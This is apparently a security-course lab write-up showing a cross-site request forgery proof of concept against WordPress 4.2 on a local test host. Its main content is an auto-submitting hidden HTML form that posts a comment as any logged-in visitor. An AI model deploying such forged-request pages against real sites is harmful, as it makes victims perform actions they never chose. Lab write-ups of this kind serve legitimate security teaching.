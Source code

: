 # Steps
#### Step 1 - Set up a malicious website.
######	Create the malicious code.
	<form name="csrfForm" action="http://wpdistillery.vm/wp-comments-post.php" method="POST">
   		<input type="hidden" name="comment" value="I made a comment" />
   		<input type="hidden" name="comment_post_ID" value="1" />
   		<input type="hidden" name="comment_parent" value="0" />
   		<input type="hidden" name="_wp_unfiltered_html_comment" value="0791945477" />
   		<input type="submit" value="Post+Comment" />
	</form>
	<script>
		document.csrfForm.submit(); 
	</script>

#### Step 2 - Wait for a user thats logged into the WordPress site to vist your malicious website.
###### The csrfForm should automaticly submit and post the comment.



# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Cross-Site Request Forgery (CSRF)

#### CVE: Unkown
###### Found this exploit myself


# Affected versions and patches
#### Affected version
###### PoC Tested in WordPress 4.2



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/CSRF/Demo.gif "XSS Demo")

